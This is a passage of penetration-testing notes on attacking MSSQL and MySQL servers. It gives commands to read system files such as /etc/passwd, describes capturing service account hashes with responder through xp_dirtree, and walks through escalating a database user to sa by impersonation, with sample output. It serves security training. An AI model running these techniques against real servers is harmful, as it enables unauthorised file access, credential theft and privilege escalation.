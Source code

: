 * MSSQL:

  ```
  1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
  2> GO
  ```

* MySQL: `select LOAD_FILE("/etc/passwd");`

Like SMB, we can capture MSSQL service account hashes using `responder`. This can be achieved by trying to connect to a spoofed share using `xp_subdirs` or `xp_dirtree`.

We can also impersonate users using MSSQL:

```
----- Identify users that can be impersonated -----
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO

name
-----------------------------------------------

sa
ben
valentin

----- Verify current user and role -----
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go

-----------
julio

(1 rows affected)

-----------
          0 <-- indicates we are not sysadmin, but we can impersonate sa

----- Impersonate the SA user -----
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO

-----------
sa

(1 rows affected)

-----------
          1
```
